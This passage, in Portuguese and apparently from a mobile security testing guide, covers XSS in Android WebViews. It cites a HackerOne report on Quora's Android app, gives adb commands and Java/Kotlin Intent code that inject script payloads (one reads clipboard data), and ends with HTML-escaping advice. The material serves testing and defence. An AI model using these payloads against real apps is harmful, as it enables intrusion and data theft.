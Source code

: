 Sergey Bobrov foi capaz de tirar vantagem disso no seguinte [relatório do HackerOne](https://hackerone.com/reports/189793 "Relatório do HackerOne - [Android] XSS via start ContentActivity"). Qualquer entrada para o parâmetro HTML seria confiada no ActionBarContentActivity do Quora. Cargas úteis foram bem-sucedidas usando adb, dados da área de transferência via ModalContentActivity e Intents de aplicativos de terceiros.

- ADB

  ```bash
  $ adb shell
  $ am start -n com.quora.android/com.quora.android.ActionBarContentActivity \
  -e url 'http://test/test' -e html 'XSS<script>alert(123)</script>'
  ```

- Dados da Área de Transferência

  ```bash
  $ am start -n com.quora.android/com.quora.android.ModalContentActivity  \
  -e url 'http://test/test' -e html \
  '<script>alert(QuoraAndroid.getClipboardData());</script>'
  ```

- Intent de terceiros em Java ou Kotlin:

  ```java
  Intent i = new Intent();
  i.setComponent(new ComponentName("com.quora.android",
  "com.quora.android.ActionBarContentActivity"));
  i.putExtra("url","http://test/test");
  i.putExtra("html","XSS PoC <script>alert(123)</script>");
  view.getContext().startActivity(i);
  ```

  ```kotlin
  val i = Intent()
  i.component = ComponentName("com.quora.android",
  "com.quora.android.ActionBarContentActivity")
  i.putExtra("url", "http://test/test")
  i.putExtra("html", "XSS PoC <script>alert(123)</script>")
  view.context.startActivity(i)
  ```

Se um WebView for usado para exibir um site remoto, o ônus de escapar HTML recai sobre o lado do servidor. Se existir uma falha de XSS no servidor web, isso pode ser usado para executar script no contexto do WebView. Como tal, é importante realizar análise estática do código-fonte da aplicação web.

Verifique se as seguintes melhores práticas foram seguidas:

- Nenhum dado não confiável é renderizado em HTML, JavaScript ou outros contextos interpretados, a menos que seja absolutamente necessário.
- Codificação apropriada é aplicada para escapar caracteres, como codificação de entidade HTML. Nota: regras de escape tornam-se complicadas quando HTML está aninhado dentro de outro código, por exemplo, renderizando uma URL localizada dentro de um bloco JavaScript.

Considere como os dados serão renderizados em uma resposta. Por exemplo, se os dados são renderizados em um contexto HTML, seis caracteres de controle que devem ser escapados:

| Caractere  | Escapado      |
| :-------------: |:-------------:|
| & | &amp;|
| < | &lt; |
| > | &gt;|
| " | &quot;|
| ' | &#x27;|
| / | &#x2F;|
